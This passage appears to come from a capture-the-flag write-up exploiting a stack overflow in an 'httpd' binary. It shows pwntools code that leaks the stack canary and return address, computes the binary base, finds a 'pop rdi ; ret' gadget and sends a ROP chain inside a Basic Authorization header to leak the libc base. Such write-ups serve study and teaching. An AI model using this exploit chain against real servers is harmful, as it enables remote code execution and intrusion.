 ```python

log.success('canary: 0x%016x' % canary)
```



We do the same thing to leak the **saved rbp**, and the **saved return address**.

Once everything has been leaked, we can compute the binary base address, as offsets are constants:

```python
code_base = ret_addr - 0x289e
log.success('ret_addr: 0x%016x' % ret_addr)
log.success('code_base: 0x%016x' % code_base)
```



Now we've got everything we need, it's time to cook our ROP chain ! :man_cook:

PS: The leaking part takes some time, as I needed to be fast I just used a gdb script to automatically get the necessary leaks.



Firstly, we need to leak the `libc` base address. We can do that easily by doing a simple `puts(puts@GOT)`.

The only gadget that we need at the moment is `pop rdi ; ret`, which we can find in the httpd binary using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget):

```
$ ROPgadget --binary ./httpd | grep "pop rdi ; ret"
0x0000000000002aa3 : pop rdi ; ret
```

```python
pop_rdi = code_base + 0x0000000000002aa3 # pop rdi ; ret
puts_got = code_base + elf.got['puts']
puts_addr = code_base + elf.sym['puts']
```



The ROP chain is now ready to get our first libc leak!

```python
# Leak libc

login = b'admin:admin\x00'
login += b'A'*252
login += p64(canary)
login += p64(0xdeadbeefcafebabe) # saved rbp
login += p64(pop_rdi)
login += p64(puts_got)
login += p64(puts_addr)

auth = b'Basic ' + base64.b64encode(login)

req = make_request(headers={
    b'Authorization': auth,
    b'Connection': b'keep-alive', # /!\ Important, we don't want the parent process to end
})

r.send(req)

libc_base = u64(r.recvn(6).ljust(8, b'\x00')) - libc.sym['puts']
log.success('libc_base: 0x%016x' % libc_base)
```
